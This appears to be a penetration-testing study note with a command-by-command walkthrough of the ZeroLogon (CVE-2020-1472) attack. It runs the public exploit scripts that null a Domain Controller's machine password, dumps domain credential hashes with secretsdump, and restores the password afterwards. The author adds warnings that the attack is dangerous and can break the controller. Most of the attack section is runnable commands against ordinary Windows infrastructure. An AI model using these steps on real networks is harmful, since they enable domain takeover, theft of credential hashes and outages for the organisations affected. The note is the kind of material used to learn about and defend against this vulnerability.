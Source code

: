 # I. Abusing Zero Logon

Disclaimer: This is a very dangerous attack to run in a real-world assessment.

This vulnerability attacks the Domain Controller, sets the password to null thereby taking it over because we can authentic without a password. What makes this dangerous is that, if the password is not restored after, it will break the Domain Controller.

On our kali machine, move to the `/opt` directory and clone this repo: https://github.com/dirkjanm/CVE-2020-1472

Move into the repo. Copy the **`zerologon_tester.py`** file from this repo https://github.com/SecuraBV/CVE-2020-1472into the current directory.

All we need for the zero logon tester is the name of the Domain Controller and the IP address.

`python3 zerologon_tester.py <DOMAIN CONTROLLER> <DC-IP>`

Next to run the exploit all we need to do is use

`python3 cve-2020-1472-exploit.py <DOMAIN CONTROLLER> <DC-IP>`

To check, use secretsdump

`secretsdump.py -just-dc <DOMAIN>/<DOMAIN CONTROLLER>\$@<DC-IP>`

Now to restore, first copy the administrator hash and

`secretsdump.py administrator@<DC-IP> -hash <hash>`

Then copy the entire plain password hex.

Now back in the exploit folder run

`python3 restorepassword.py <DOMAIN>/<DOMAIN CONTROLLER>@<DOMAIN CONTROLLER> -target-ip <DC-IP> -hexpass <password hex>`

Done!!…Remember, this is a very dangerous attack. Please don’t run it during a pentest 🙂.

**NOTE: For some reason, the attack kept failing on my end. Kept saying my DC is patched?? (WTF).**

## Resources:

What is ZeroLogon? - [https://www.trendmicro.com/en_us/what-is/zerologon.html](https://www.trendmicro.com/en_us/what-is/zerologon.html)

dirkjanm CVE-2020-1472 - [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

SecuraBV ZeroLogon Checker - [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)